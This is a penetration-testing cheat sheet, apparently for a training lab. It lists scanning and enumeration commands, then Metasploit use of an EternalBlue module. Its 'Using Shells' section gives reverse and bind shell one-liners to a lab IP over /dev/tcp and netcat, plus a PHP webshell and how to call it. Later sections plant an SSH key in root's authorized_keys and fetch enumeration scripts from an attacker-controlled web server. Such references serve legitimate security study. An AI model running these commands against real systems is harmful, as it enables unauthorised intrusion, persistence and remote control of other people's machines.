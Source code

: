 # Basic Tools

## General	
Command	                     Description
sudo openvpn user.ovpn	     Connect to VPN
ifconfig/ip a	               Show our IP address
netstat -rn	                 Show networks accessible via the VPN
ssh user@10.10.10.10	       SSH to a remote server
ftp 10.129.42.253	           FTP to a remote server

### tmux	
tmux	                       Start tmux
ctrl+b	                     tmux: default prefix
prefix c	                   tmux: new window
prefix 1	                   tmux: switch to window (1)
prefix shift+%	             tmux: split pane vertically
prefix shift+"	             tmux: split pane horizontally
prefix ->	                   tmux: switch to the right pane

### Vim	
vim file	                   vim: open file with vim
esc+i	                       vim: enter insert mode
esc	                         vim: back to normal mode
x	                           vim: Cut character
dw	                         vim: Cut word
dd	                         vim: Cut full line
yw	                         vim: Copy word
yy	                         vim: Copy full line
p	                           vim: Paste
:1	                         vim: Go to line number 1.
:w	                         vim: Write the file 'i.e. save'
:q	                         vim: Quit
:q!	                         vim: Quit without saving
:wq	vim:                     Write and quit

## Pentesting
Command	                                                      Description
### Service Scanning	
nmap 10.129.42.253	                                          Run nmap on an IP
nmap -sV -sC -p- 10.129.42.253	                              Run an nmap script scan on an IP
locate scripts/citrix	                                        List various available nmap scripts
nmap --script smb-os-discovery.nse -p445 10.10.10.40	        Run an nmap script on an IP
netcat 10.10.10.10 22	                                        Grab banner of an open port
smbclient -N -L \\\\10.129.42.253	                            List SMB Shares
smbclient \\\\10.129.42.253\\users	                          Connect to an SMB share
snmpwalk -v 2c -c public 10.129.42.253 1.3.6.1.2.1.1.5.0	    Scan SNMP on an IP
onesixtyone -c dict.txt 10.129.42.254	                        Brute force SNMP secret string

### Web Enumeration	
Command	                                                                              Description
gobuster dir -u http://10.10.10.121/ -w /usr/share/dirb/wordlists/common.txt	        Run a directory scan on a website
gobuster dns -d inlanefreight.com -w /usr/share/SecLists/Discovery/DNS/namelist.txt	  Run a sub-domain scan on a website
curl -IL https://www.inlanefreight.com	                                              Grab website banner
whatweb 10.10.10.121	                                                                List details about the webserver/certificates
curl 10.10.10.121/robots.txt	                                                        List potential directories in robots.txt
Public Exploits	
ctrl+U	                                                                              View page source (in Firefox)
searchsploit openssh 7.2	                                                            Search for public exploits for a web application
msfconsole	                                                                          MSF: Start the Metasploit Framework
search exploit eternalblue	                                                          MSF: Search for public exploits in MSF
use exploit/windows/smb/ms17_010_psexec	                                              MSF: Start using an MSF module
show options	                                                                        MSF: Show required options for an MSF module
set RHOSTS 10.10.10.40	                                                              MSF: Set a value for an MSF module option
check	                                                                                MSF: Test if the target server is vulnerable
exploit	                                                                              MSF: Run the exploit on the target server is vulnerable

### Using Shells	
nc -lvnp 1234	Start a nc listener on a local port
bash -c 'bash -i >& /dev/tcp/10.10.10.10/1234 0>&1'	                                  Send a reverse shell from the remote server
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.10.10 1234 >/tmp/f	      Another command to send a reverse shell from the remote server
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc -lvp 1234 >/tmp/f	            Start a bind shell on the remote server
nc 10.10.10.1 1234	                                                                  Connect to a bind shell started on the remote server
python -c 'import pty; pty.spawn("/bin/bash")'	                                      Upgrade shell TTY (1)
ctrl+z then stty raw -echo then fg then enter twice	                                  Upgrade shell TTY (2)
echo "<?php system(\$_GET['cmd']);?>" > /var/www/html/shell.php	                      Create a webshell php file
curl http://SERVER_IP:PORT/shell.php?cmd=id	                                          Execute a command on an uploaded webshell

### Privilege Escalation	
./linpeas.sh	                                                                        Run linpeas script to enumerate remote server
sudo -l	List                                                                          available sudo privileges
sudo -u user /bin/echo Hello World!	                                                  Run a command with sudo
sudo su -	                                                                            Switch to root user (if we have access to sudo su)
sudo su user -	                                                                      Switch to a user (if we have access to sudo su)
ssh-keygen -f key	                                                                    Create a new SSH key
echo "ssh-rsa AAAAB...SNIP...M= user@parrot" >> /root/.ssh/authorized_keys	          Add the generated public key to the user
ssh root@10.10.10.10 -i key	                                                          SSH to the server with the generated private key

### Transferring Files	
Command

                                                   Description
python3 -m http.server 8000	                              Start a local webserver
wget http://10.10.14.1:8000/linpeas.sh	                  Download a file on the remote server from our local machine
curl http://10.10.14.1:8000/linenum.sh -o linenum.sh	    Download a file on the remote server from our local machine
scp linenum.sh user@remotehost:/tmp/linenum.sh	          Transfer a file to the remote server with scp (requires SSH access)
base64 shell -w 0	                                        Convert a file to base64
echo f0VMR...SNIO...InmDwU | base64 -d > shell	          Convert a file from base64 back to its orig
md5sum shell	                                            Check the file's md5sum to ensure it converted correctly